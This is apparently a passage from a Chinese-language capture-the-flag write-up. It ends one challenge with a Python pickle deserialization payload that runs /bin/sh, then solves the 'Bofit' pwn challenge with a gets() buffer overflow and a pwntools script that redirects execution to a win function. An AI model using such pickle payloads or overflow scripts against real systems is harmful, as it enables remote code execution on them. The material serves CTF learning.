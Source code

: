 然后构造`payload`：并进行`base64`编码：

```
cos
system
(S'/bin/sh'
tR.
```

![image-20210509100428854](image-20210509100428854.png)

### Bofit

> Because Bop It is copyrighted, apparently
>
> nc umbccd.io 4100
>
> Author: trashcanna

这是一道十分中规中矩的`pwn`题，给出了代码和二进制

在`play_game`函数中找到了`gets`

![image-20210509100723803](image-20210509100723803.png)

然后又没有保护，经典的`ROP`

![image-20210509100805897](image-20210509100805897.png)

在这题里面，`play_game`进入哪一个`case`是由随机数生成的，所以为了方便找出返回地址的偏移，我先将随机数改成了常数自己编译一个程序（返回地址的偏移量应该不会变化，`rand`的返回值不经过栈，直接使用寄存器），然后使用`cyclic`找出要填充的长度，然后再找出`win_game`的地址就好了

![image-20210509101110587](image-20210509101110587.png)

![image-20210509101140141](image-20210509101140141.png)

需要注意的是，程序里面有个`if(strlen(input) < 10) correct = false;`条件，需要使字符串长度小于`10`才可以结束函数，这里直接使用`\0`解决

最后的脚本：

```python
from pwn import *

io = remote('umbccd.io', 4100)
#io = process('./test')
io.recvuntil('BOF it to start!\n')
io.sendline('B')

payload = b'A' * 5 + b'\0' + b'A' * 50
payload += p64(0x401256)

io.recvuntil('Shout it!\n')
io.sendline(payload)
io.interactive()
```
